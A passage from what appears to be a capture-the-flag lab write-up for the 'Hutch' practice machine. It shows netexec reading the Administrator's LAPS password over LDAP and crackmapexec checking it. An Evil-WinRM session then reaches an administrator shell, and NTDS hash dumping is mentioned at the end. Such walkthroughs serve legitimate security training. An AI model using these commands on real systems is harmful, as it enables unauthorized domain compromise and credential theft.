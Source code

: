 Another way to extract this password through netexec like this 🔻

```bash
nxc ldap hutch.offsec -u fmsorley -p '<PASSWORD>' -M laps
```
{: .nolineno}

I got password seams like it is the password for Administrator as I verified with <mark style="background: #FF5582A6;">crackmapexec</mark> Tool 🔻

![Image](Pasted%20image%2020240617105346.png)

Finally Lets have a Administrative shell 🔻

```powershell
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Hutch]
└─$ evil-winrm -i 192.168.182.122 -u Administrator -p <PASSWORD>
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> whoami
hutch\administrator
*Evil-WinRM* PS C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is 0A26-9DC1
C:.
+---3D Objects
+---Contacts
+---Desktop
|       proof.txt
|
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos
*Evil-WinRM* PS C:\Users\Administrator> 
```
{: .nolineno}
OR 
I can also extract the NTLM hashes of the other users with netexec Tool through giving `--ntds` flag 🔻
